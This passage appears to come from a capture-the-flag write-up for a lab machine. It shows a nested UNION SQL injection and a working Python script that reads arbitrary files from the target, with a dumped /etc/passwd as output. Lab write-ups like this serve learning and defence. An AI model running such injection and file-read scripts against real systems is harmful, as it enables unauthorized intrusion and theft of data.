 Ok, so that was successful and the Contact page was returned so the first injection worked. What I want to do now is inject another SQL injection in the `name` field returned instead of the actual name value so I can use the same UNION SELECT injection on the 2nd query and return a filename of my choosing.

This is the query I want to run against the `filepath` table: `SELECT path FROM filepath WHERE name = 'invalid' UNION SELECT ALL '/etc/passwd'`.

I made another script to do this:

```python
from bs4 import BeautifulSoup
import readline
import requests

proxies = { "http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080" }

while True:
    file = raw_input("> ")
    payload = "25' union select all \"%s\" -- -" % ("invalid' union select all '" + file)
    r = requests.get("https://www.nestedflanders.htb/index.php?id=%s" % payload, proxies=proxies, verify=False)
    soup = BeautifulSoup(r.text, 'html.parser')
    print soup.body
```

The 2nd query now returns a file name that I control and I can read files on the target system:

```
# python sqli3.py
> /etc/passwd
[...]
<!-- <div align="center"> -->
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
messagebus:x:105:109::/var/run/dbus:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
guly:x:1000:1000:guly,,,:/home/guly:/bin/bash
mysql:x:107:112:MySQL Server,,,:/nonexistent:/bin/false
```
